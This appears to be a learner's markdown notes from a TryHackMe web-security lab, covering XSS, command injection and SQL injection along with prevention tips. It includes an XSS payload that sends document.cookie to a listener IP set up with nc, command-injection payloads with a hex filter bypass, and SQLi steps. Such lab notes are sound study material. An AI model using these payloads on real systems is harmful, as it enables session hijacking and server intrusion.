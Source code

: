 ```
>>> temp
 <div><label>Ticket Created:</label> 03/05/2023 14:33</div>
                    <div><label>Ticket Contents:</label></div>
                    <div><textarea class="form-control">temp</textarea></div>

>>> </textarea><script>alert('THM');</script><textarea>

# fetching the cookie

>>> nc -nlvp 9001
>>> </textarea><script>fetch('http://10.10.51.250?cookie=' + btoa(document.cookie) );</script>



```


## Command Injections

- Blind vs verbose command injections
- Populating system command with `;`, `&`, `&&`
- Linux Payloads: whoami, ls, **ping**, sleep, nc
- Windows Payloads: whoami, dir, ping, **timeout**
- PHP vulnerable functions: 'exec', 'passthru', 'system'
- How to prevent command injections:
    * Input sanitisation: remove character '>&/'
    * we can still perform command injections by injections payload as hex: '\x2f\x65..'

[command injections payload list](https://github.com/payloadbox/command-injection-payload-list)

```
>>> ;id;
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
>>> ;whoami;
www-data
>>>  ;cat /home/tryhackme/flag.txt;
THM{COMMAND_INJECTION_COMPLETE} 
```


## SQL Injection

- Types of database management system (DBMS): relational (SQL) vs non-relational (MongoDB, Cassandra, ElasticSearch)
- Types of SQL Injections: 
    * Error-Based:
    * Union-Based:
- To find if a site has a SQL Injection vulnerabilities, try to add `'` to the end of the url to see if it show a database error
- Performing SQL INjection:
    1. establish number of columns in table with 'UNION SELECT'
    2. Find the database -> table_name -> columns
    3. write query
- Preventing SQL Injections:
    * Prepared Statements
    * Input validation and restrict list
    * Escaping User Input: prepending '\' to special characters

